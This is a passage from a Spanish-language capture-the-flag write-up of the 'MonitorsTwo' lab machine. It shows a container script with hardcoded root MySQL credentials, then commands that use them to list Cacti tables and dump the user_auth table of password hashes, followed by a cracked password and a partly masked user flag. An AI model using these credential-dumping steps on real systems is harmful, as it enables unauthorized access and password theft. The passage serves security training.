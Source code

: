 ```
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```
Y tenemos la capacidad de ejecutar el comando: ```mysql --host=db --user=root --password=root cacti -e "consulta"```, no hace falta indicarle la base de datos ya que ya se esta usando, y es la de nombre ```cacti```, ahora mostraremos todas las tablas:

```mysql --host=db --user=root --password=root cacti -e "show tables"```

Las tablas de nuestro interes son estas:

```
user_auth
user_auth_cache
user_auth_group
user_auth_group_members
user_auth_group_perms
user_auth_group_realm
user_auth_perms
user_auth_realm
user_domains
user_domains_ldap
```
Empezare a ver los datos de la primera tabla:

```mysql --host=db --user=root --password=root cacti -e "select * from user_auth"```

Aun que se vea extraño, hemos conseguido usuarios y el hash de sus contraseñas

![](/assets/img/commons/monitorsTwo/4.png)

Les adelando que la unica que podemos crackear sera la de Marcus y esta cifrada con bcrypt, pueden usar John o Hashcat

**usr:** marcus

**pass:** funkymonkey

Ya tenemos la primera flag

```bash
marcus@monitorstwo:~$ cat user.txt 
a93ad02d6adb6a980368dad17b1*****
```
